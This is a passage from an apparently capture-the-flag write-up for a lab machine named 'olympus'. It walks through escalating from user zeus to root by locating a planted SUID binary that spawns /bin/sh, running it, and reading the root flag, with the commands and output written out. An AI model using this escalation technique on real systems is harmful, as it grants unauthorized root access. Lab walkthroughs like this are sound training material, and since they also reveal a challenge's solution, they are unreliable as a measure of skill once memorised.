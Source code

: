 ```shell
Enter passphrase for key 'id_rsa':                                                                                    
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)
[REDACTED]
zeus@olympus:~$ id
uid=1000(zeus) gid=1000(zeus) groups=1000(zeus),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)   
```

Now we are the user `zeus`.


## Privilege Escalation


There is an interesting folder (`0aB44fdS3eDnLkpsz3deGv8TttR4sc`) in `/var/www/html` that user `zeus` can access, which is owned by `root`. If we navigate there we see an interesting file `VIGQFQFMYOST.php`

```shell
zeus@olympus:/$ cd /var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc/                                                      
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ cat VIGQFQFMYOST.php
[REDACTED]
$suid_bd = "/lib/defended/libc.so.99";                                                                                
$shell = "uname -a; w; $suid_bd";
[REDACTED]
```

The file `/lib/defended/libc.so.99` is `SUID` binary, and if we execute the `strings` command we see that it executes `/bin/sh`, so we can run it to become `root`.

```shell
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ ls -la /lib/defended/libc.so.99                            
-rwsr-xr-x 1 root root 16784 Apr 14 10:54 /lib/defended/libc.so.99
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ strings /lib/defended/libc.so.99
[REDACTED]
/bin/sh
[REDACTED]
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ /lib/defended/libc.so.99
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),1000(zeus)
```

We can read now `root.flag` in `/root` directory, and there is a hint on the 4th flag. 

```shell
# bash
root@olympus:/root# cat root.flag
                   [REDACTED]

PS : Prometheus left a hidden flag, try and find it ! I recommend logging as root over ssh to look for it ;)

                  (Hint : regex can be usefull)
```
